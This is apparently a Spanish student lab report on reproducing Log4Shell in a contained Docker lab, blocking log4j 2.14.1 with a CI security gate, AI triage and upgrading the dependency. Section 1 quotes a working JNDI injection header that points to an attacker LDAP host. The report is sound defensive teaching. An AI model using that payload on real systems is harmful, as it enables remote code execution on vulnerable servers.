




# Laboratorio Log4Shell (`CVE-2021-44228`) + Security Gate (SCA + Triage con IA)

**Equipo:** Garcia - Vargas  
**Integrantes:** **Tatiana García Grajales** ([@Tatianag2](https://github.com/Tatianag2)) · **Javier Alejandro Vargas** ([@javargasp26](https://github.com/javargasp26))  
**Repositorio (Fork con `GATE_AI_API_KEY`):** [`Tatianag2/desarrollo-seguro-ucp`](https://github.com/Tatianag2/desarrollo-seguro-ucp)  
**Pull Request:** [`feat: app-pedidos con dependencia log4j 2.14.1 (Log4Shell)` (`Tatianag2/desarrollo-seguro-ucp#1`)](https://github.com/Tatianag2/desarrollo-seguro-ucp/pull/1)

---

## 1. Reproducción Contenida del RCE (`01-log4shell`) y Contención de Red (`internal: true`)

Se levantó el laboratorio aislado en Docker (`l4s-victim` con `log4j-core 2.14.1`, `l4s-ldap` y `l4s-http`) y se ejecutaron `exploit.sh` y `comparar.sh`:
- **Vector de entrada:** Cabecera HTTP `X-Api-Version: ${jndi:ldap://attacker-ldap:1389/Exploit}` registrada con `log.info(...)`.
- **Impacto (RCE):** La JVM víctima resolvió el lookup JNDI contra el LDAP atacante, descargó `Exploit.class` desde el HTTP atacante y ejecutó su bloque `static {}` con privilegios **`uid=0(root)`**, creando `/tmp/pwned.txt`.
- **Comparación (`HTTP 200` en ambas peticiones):** Tanto la petición benigna (`X-Api-Version: 2.3.1`) como la maliciosa respondieron `HTTP 200 OK`, demostrando que el código de estado HTTP no certifica ausencia de compromiso; la evidencia real está dentro del servidor (`/tmp/pwned.txt` y `JndiLookup.lookup` en logs).
- **Contención (`internal: true`):** El intento de conexión saliente hacia internet (`wget http://1.1.1.1`) falló con `Network unreachable — sin egress`, demostrando cómo el control de tráfico saliente (*egress filtering*) contiene la post-explotación.

---

## 2. Detección y Bloqueo en el Pull Request #1 (`Security Gate (SCA + IA)` en ROJO ❌)

En el fork [`Tatianag2/desarrollo-seguro-ucp`](https://github.com/Tatianag2/desarrollo-seguro-ucp) se configuró el secret **`GATE_AI_API_KEY`** en GitHub Actions y se abrió el [**Pull Request #1**](https://github.com/Tatianag2/desarrollo-seguro-ucp/pull/1) introduciendo `seclab/ci-demo-app/pom.xml` con `log4j-core` y `log4j-api` en versión **`2.14.1`** (commit [`8d7b971`](https://github.com/Tatianag2/desarrollo-seguro-ucp/pull/1/commits/8d7b971)).
- El workflow **`.github/workflows/gate.yml`** ejecutó `scan.sh --with-trivy` y detectó `CVE-2021-44228` (CRITICAL), `CVE-2021-45046` (CRITICAL), `CVE-2021-45105` (HIGH) y los CVEs recientes de 2025/2026 en `log4j 2.14.1`, **bloqueando el Pull Request (`exit 1`)**.

---

## 3. Triage Automático con IA en el Pull Request (`ai_triage.py` + `GATE_AI_API_KEY`)

El paso **Triage con IA (`seclab/bin/ai_triage.py`)** consumió la API de IA usando el secret `GATE_AI_API_KEY` y publicó automáticamente el comentario en el Pull Request #1 explicando en español el riesgo principal (**Log4Shell RCE por lookups JNDI**), el detalle de cada CVE y la acción concreta de remediación: actualizar `log4j-core` y `log4j-api` a la versión vigente **`2.26.1`** (ya que `2.17.1` solo cubría los CVEs de 2021 pero no los de 2025/2026).

---

## 4. Remediación (`log4j 2.14.1 → 2.26.1`) y Paso del Gate a VERDE (✅)

Siguiendo la recomendación del agente de triage, se actualizó `seclab/ci-demo-app/pom.xml` a **`2.26.1`** (commit [`aac15ea`](https://github.com/Tatianag2/desarrollo-seguro-ucp/pull/1/commits/aac15ea)). Al re-ejecutarse el pipeline en el Pull Request #1, Trivy verificó `0` hallazgos y **`Security Gate (SCA + IA) / gate`** pasó a **VERDE (`Successful`)**.

